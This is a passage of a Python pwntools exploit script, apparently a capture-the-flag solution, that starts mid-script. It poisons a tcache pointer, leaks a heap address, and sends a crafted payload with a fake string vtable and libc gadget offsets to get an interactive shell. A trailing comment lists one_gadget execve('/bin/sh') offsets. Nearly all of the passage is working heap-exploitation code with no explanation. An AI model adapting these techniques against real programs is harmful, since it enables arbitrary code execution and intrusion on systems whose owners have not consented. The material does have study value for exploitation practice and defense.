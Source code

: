 ```python

sleep(0.5)

#tcache[0x30]->chunk->&gm-0x20
sh.send(p64(0x407118-0x20))

# =================round 3, leak heap addr===================
sh.recvuntil('str: ')   #str0
sh.send('A'*0x20)

sh.recvuntil('str: ')
sh.send('A'*0x18+p8(0xa0))  #str1
sh.recvuntil('A'*0x18)
heap_addr = u64(sh.recvuntil('\nstr: ', drop=True).ljust(8, '\x00')) 
Log('heap_addr')  

sh.sendline()   #str2

for i in range(6):
    sh.recvuntil('str: ')   #str2~str8
    sh.sendline('')

sh.recvuntil('heap buffer overflow primitive: ')

GDB()

magic_GG =  libc.address+0x0000000000092f0a # xor edx, edx; xor esi, esi; mov rdi, r15; call qword ptr [rax + 0x58];

exp = ''
exp+= flat(getTag_addr, 0, 0, 0, 0, 0)      # padding Object1
exp+= flat(0, 0x41, getNameBuffer_addr, 1, 0, 0, heap_addr+0x260, gm_addr)
exp = exp.ljust(0x100, '\x00')
exp+= flat(heap_addr+0x260+0x18, 0xc1, 0xc2)  # <=heap_addr+0x260, String Object
exp+= flat(0, magic_GG , 2, 3)  #<=heap_addr+0x260+0x18, String Vtable, vtable[1] = magic_GG
exp+= cyclic(0x20)
exp+= flat(libc.address+0xe3b31)    # one OGG
exp = exp.ljust(0x400, '\x00')
sh.send(exp)

sh.sendline('')

sh.interactive()

'''

0xe3b2e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b31 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b34 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

'''
```